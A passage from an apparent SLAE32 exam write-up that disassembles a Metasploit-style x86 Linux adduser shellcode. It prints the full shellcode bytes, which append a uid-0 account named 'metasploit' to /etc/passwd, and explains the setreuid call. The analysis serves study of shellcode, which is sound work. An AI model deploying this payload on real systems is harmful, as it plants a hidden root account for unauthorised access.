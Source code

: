 I have then taken the shellcode and passed it to ndisasm:
```
┌──(kali㉿kali)-[~/SLAE32-Exam/5.2-AddUser]
└─$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - > adduser_disasm.txt
```

At offset 0x26 we can see a call to 0x53, the instructions between the two addresses seems to be very obscure but with a quick check it is clear that at offset 0x2B we can find a string related to the user we want to create. In order to correctly disassemble the last piece, I have taken all the shellcode from 0x53 to the end and ran a second disasm, for which the output is available in `adduser_disasm_lastpiece.txt`.

Now the shellcode is quite clear: it performs 4 syscalls in order to add the new user at the end of /etc/passwd:
![AddUser shellcode flow](/writeups/img/slae5-adduser-01.png)

The first call is to [setreuid](https://man7.org/linux/man-pages/man2/setreuid.2.html), which sets real and effective user IDs of the calling process. Input parameters are set to zero, meaning an impersonation of user 'root' (which is required in order to edit /etc/passwd file).